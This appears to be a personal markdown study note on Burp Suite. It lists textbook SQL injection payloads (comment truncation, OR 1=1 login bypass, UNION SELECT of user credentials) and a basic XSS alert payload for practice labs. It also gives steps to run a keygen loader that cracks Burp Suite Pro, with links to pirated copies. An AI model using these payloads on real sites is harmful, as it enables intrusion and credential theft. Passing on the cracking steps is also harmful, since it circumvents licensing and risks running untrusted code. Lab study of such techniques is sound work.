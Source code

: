 ```yaml
---
title: Meow's Testing Tools - Burpsuite
date: 2019-09-17 11:11:11 -0400
categories: [10CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


[toc]

---

# Burpsuite

---

test web: `www.dvwa.co.uk`

---

## Testing workflow

![burp-workflow](https://i.imgur.com/IlK1tx3.jpg)


---


## SQL injection


![Screen Shot 2020-11-18 at 12.29.51](https://i.imgur.com/XqX9weI.png)

`UPDATE, INSERT, SELECT, ORDER BY`

1. retrieve hidden data:
   1. input: Gifts
   2. `https://web/products?category=Gifts`
   3. `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
   4. input: Gifts'--
   5. `https://web/products?category=Gifts'--`
   6. `SELECT * FROM products WHERE category = 'Gifts'`--' AND released = 1
   7. input: Gifts`'+OR+1=1--`
   8. `https://web/products?category=Gifts'+OR+1=1--`
   9. `SELECT * FROM products WHERE category = 'Gifts' OR 1=1`--' AND released = 1
2. subverting application logic
   1. `GET /web3/login/?id=1&Submit=Submit HTTP/1.1`
   2. `GET /web3/login/?id=1'OR 1=1 #`&Submit=Submit `HTTP/1.1`
   3. `GET /web3/login/?id=1'+OR+1+%3d+1+%23&`Submit=Submit `HTTP/1.1`
   4. input: admin 12345
   5. `SELECT * FROM user WHERE username = 'admin' AND password = '12345'`
   6. input: admin'--
   7. `SELECT * FROM user WHERE username = 'admin'`--' AND password = '12345'
3. retrieve data from other database tables
   1. input: Gifts
   2. `SELECT name, description FROM products WHERE category = 'Gifts'`
   3. input: Gifts' UNION SELECT username, password From users--
   4. `SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password From users`--
4. examining the database
   1. oracle: `SELECT * FROM v$version`
   2. list the table and database: `SELECT * FROM information_schema.tables`
5. blind SQL injection vulnerabilities


detecting SQL injection vulnerabilities: use scanner


[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

lab:

```
https://abc.net/filter?category=Lifestyle' UNION SELECT NULL,NULL,NULL--


```


---

## XSS Exploitation

1. execute payload as `<script>alert(“hello”)</script>`


# install burpsuite


[file](https://drive.google.com/drive/folders/1YKAeBIXPeUFW78buqRlJ9Yg1Ln6W2f1R)

```bash
# Install homebrew

rm -rf /Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk

# Tap homebrew/cask-versions
brew tap homebrew/cask-versions

# install java8:
brew cask install adoptopenjdk8

# Check if java8 is successfully installed or not
/usr/libexec/java_home -verbose

# cd to the file
cd /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app

# Window1:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burp-loader-keygen-2_1_07.jar

-jar burp-loader-keygen.jar

# add file
-Xbootclasspath/p:burp-loader-keygen-2_1_07.jar

# Window2:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burpsuite_pro_v2.1.07.jar

/Library/Java/JavaVirtualMachines/liberica-jdk-8.jdk/Contents/Home/bin/java -jar burpsuite_pro_v1.7.31


# Create a Bash Alias
# If you are missing a .bash_profile
burp2.1()
{
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app/burpsuite_pro_v2.1.07.jar
}

# Run
source ~/.bash_profile
# or
source ~/.zshrc

# Now you can type burp2.1 in terminal to open Burp Suite directly
```

[link](https://www.cnblogs.com/shaosks/p/13367761.html)
[link](https://github.com/raystyle/BurpSuite_Pro_v1.7.32)
[link](https://resources.infosecinstitute.com/burpsuite-tutorial/)






.
